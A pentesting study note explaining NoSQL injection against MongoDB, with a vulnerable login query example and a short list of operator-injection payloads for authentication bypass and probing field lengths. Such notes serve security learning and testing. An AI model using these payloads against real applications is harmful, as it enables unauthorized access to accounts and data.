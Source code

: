 ```yaml
---
title: NoSQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```


#  NoSQL injection

[Dictionary for NoSQL injections](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/NoSQL-injections.md).

Examples of NoSQL databases: [redis](../6379-redis.md), [mongo](../mongo.md).

SQL stands for Structure Query Language. NoSQL Injection is a security vulnerability that occurs in applications that utilize NoSQL databases. It is a type of attack that involves an attacker manipulating a NoSQL database query by injecting malicious input, leading to unauthorized access, data leakage, or unintended operations. In traditional SQL Injection attacks, attackers exploit vulnerabilities by inserting malicious SQL code into input fields that are concatenated with database queries. Similarly, in NoSQL Injection, attackers exploit weaknesses in the application's handling of user-supplied input to manipulate NoSQL database queries.

**How does it work a NoSQL injection?** Explanation: 

```
# MongoDB query
var query = {
username: username,
password: password
};

# Perform query to check if credentials are valid
var result = db.users.findOne(query);

if (result) {
// Login successful
} else {
// Login failed

```

In this example, the application constructs a MongoDB query using user-supplied values for the username and password fields. If an attacker intentionally provides a specially crafted value, they could potentially exploit a NoSQL injection vulnerability. For instance, an attacker might enter the following value as the username parameter:

```
$gt:""
```

The attacker could potentially bypass the login mechanism and gain unauthorized access.

Typical payloads:

```
# Payload
username[$ne]=1$password[$ne]=1
# Use case/Function: Not equals to (Auth Bypass)                |

# Payload
username[$regex]=^adm$password[$ne]=1
# Use case/Function: Checks a regular expression (Auth Bypass)

# Payload
username[$regex]=.{25}&pass[$ne]=1
# Use case/Function: Checks regex to find the length of a value

# Payload
username[$eq]=admin&password[$ne]=1 
# Use case/Function: Equals to.

# Payload
username[$ne]=admin&pass[$gt]=s 
# Use case/Function: Greater than.
```


Example of a user search form: 

![](../img/nosql_01.png)

With the not equal operator, it will return all users except for "admin".

![](../img/nosql_02.png)